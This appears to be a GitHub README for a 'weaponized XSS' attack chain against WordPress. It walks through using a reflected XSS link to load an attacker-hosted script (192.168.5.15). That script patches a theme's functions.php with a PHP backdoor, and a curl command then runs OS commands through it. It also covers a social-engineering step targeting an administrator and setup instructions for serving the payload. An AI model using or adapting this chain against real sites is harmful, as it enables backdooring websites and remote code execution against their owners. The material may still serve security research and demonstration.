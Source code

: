 # [RCE] Patch File

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [setup exploit] identify target WordPress theme

    *(enumerate installed WordPress themes installed on target site)*

2. [setup exploit] change payload variable values (`patchFileWP.js`)

    `phpBdURL` - URL of PHP backdoor to be installed on target site

    `themeName` - WordPress theme name to be patched

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/path"`)

3. [setup exploit] setup web server (to serve the payload/backdoor)

    * **NOTE**: update/customize PHP backdoor in `bd.txt`

4. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.10/wp-login.php

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.15/patchFileWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.15` - web server hosting payload

6. [post exploit] execute OS command

    ```
    curl "http://192.168.5.10/wp-content/themes/twentytwentyfour/functions.php?pass=test&cmd=id"
    ```

    * **NOTE**: endpoint URL constructed based on specified WordPress theme name + `functions.php`

7. [restore file] restore file via GUI

    *WordPress -> Tools -> Theme File Editor -> Select theme to edit - (select target theme from droplist) -> Select -> Theme Functions (functions.php) -> (remove backdoor) -> Update File*

## Screenshots

* **NOTE**: the screenshot covers steps 2 to 6 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/PatchFile/screenshots/WordPress_-_patch_file_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/PatchFile/screenshots/WordPress_-_patch_file_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/f09429bc-da83-476f-9250-91ee15f7f4b0
